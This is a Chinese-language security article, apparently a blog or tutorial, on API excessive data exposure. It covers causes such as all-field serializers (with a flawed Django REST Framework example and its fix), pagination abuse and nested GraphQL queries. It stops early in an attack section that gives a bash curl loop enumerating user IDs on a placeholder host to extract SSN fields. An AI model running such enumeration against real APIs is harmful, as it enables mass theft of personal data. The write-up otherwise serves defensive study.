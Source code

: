 

# API数据过度暴露攻击技术深度剖析

## 一、技术原理解析
### 1.1 核心漏洞机制
API数据过度暴露根源于后端系统对数据粒度的失控，常见于以下场景：
- 对象序列化机制缺乏字段级控制（如Java Jackson的@JsonIgnore缺失）
- ORM层未限制查询返回列（如Hibernate未指定SELECT字段）
- 嵌套对象递归序列化（如MongoDB的DBRef自动展开）
- 响应模板未过滤敏感字段（如Swagger默认响应模型）

技术实现层面：
```python
# 典型缺陷代码示例（Django REST Framework）
class UserSerializer(serializers.ModelSerializer):
    class Meta:
        model = User
        fields = '__all__'  # 危险的全字段暴露

# 应改为显式字段声明
fields = ('id', 'username', 'email')
```

### 1.2 协议层支持机制
RESTful API的分页参数常被滥用：
```http
GET /api/users?page=1&size=100
```
攻击者通过修改size参数突破最大限制值，或遍历page参数实现全量数据爬取。

GraphQL特性滥用：
```graphql
query {
  users {
    id
    posts {
      title
      comments {
        content
        author { 
          privateInfo
        }
      }
    }
  }
}
```
嵌套查询可能穿透多层关联数据。

## 二、攻击手法与变种技术
### 2.1 基础攻击技术
#### 手法1：参数遍历探测
```bash
curl -X GET "https://api.target/v1/users/15" 
# 返回包含SSN等敏感字段

for id in {1..1000}; do
  curl -s "https://api.target/v1/users/$id" | jq '.ssn'
done
```
